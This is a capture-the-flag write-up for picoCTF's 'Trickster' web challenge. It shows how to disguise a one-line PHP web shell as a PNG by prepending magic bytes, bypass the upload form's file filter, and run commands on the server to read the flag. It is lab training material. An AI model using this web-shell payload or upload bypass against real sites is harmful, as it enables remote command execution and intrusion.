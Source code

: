 # Trickster — Pico Gym

> **Room / Challenge:** Trickster (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** Trickster (web)
- **Link**: `https://play.picoctf.org/practice/challenge/445?category=1&page=3`
- **Difficulty:** `Medium`
- **Date:** `22-10-2025`

---

## Goal

We have to get the flag by leveraging the uploading PNG image functionality.

## My Solution

The app is simple with a functionality: Upload PNG image.

![Guide image](./screenshots/1.png)

We can achieve the flag and inject command to a `.png` file so I come up with a solution, I'm using bash to create a `shell.png.php` file:

```bash
echo -ne '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a<?php system($_GET["cmd"]); ?>' > shell.png.php
```

The PHP code `<?php system($_GET["cmd"]); ?>` is where we used to gain a web shell of the website and the bianry in front of it is what we trick the server to view it as a `.png` file and accept it:

```
$ cat shell.png.php

�PNG

<?php system($_GET["cmd"]); ?>%
```

When you click upload file it may not contain the `shell.png.php` in the options so use browser dev tools to change `accept=".png"` to `accept="*"` you can choose the `shell.png.php`. After that visit `/uploads/shell.png.php?cmd=id`

![Guide image](./screenshots/2.png)

The web shell works properly, I find a strange text file through `/uploads/shell.png.php?cmd=ls -la ../`:

![Guide image](./screenshots/3.png)

`cat` it and I can get the flag:

![Guide image](./screenshots/4.png)
